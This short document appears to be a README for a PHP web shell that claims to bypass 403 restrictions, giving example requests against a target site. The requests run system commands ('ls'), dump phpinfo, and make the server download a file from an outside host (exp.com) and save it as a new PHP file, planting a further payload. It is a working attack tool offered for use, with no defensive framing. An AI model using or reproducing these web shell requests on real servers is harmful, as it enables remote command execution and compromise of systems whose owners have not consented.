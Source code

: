 # 403-bypass-shell-use-range-function

## Example Usage
```
http://target.com/ecchi.php?a=system&ecchi[]=ls

get phpinfo
http://target.com/ecchi.php?a=phpinfo&ecchi[]=-3

create file
http://target.com/ecchi.php?a=sum&ecchi[]=(url file ex: http://exp.com/as.txt)&ecchi[]=(name file ex: as.php)
```
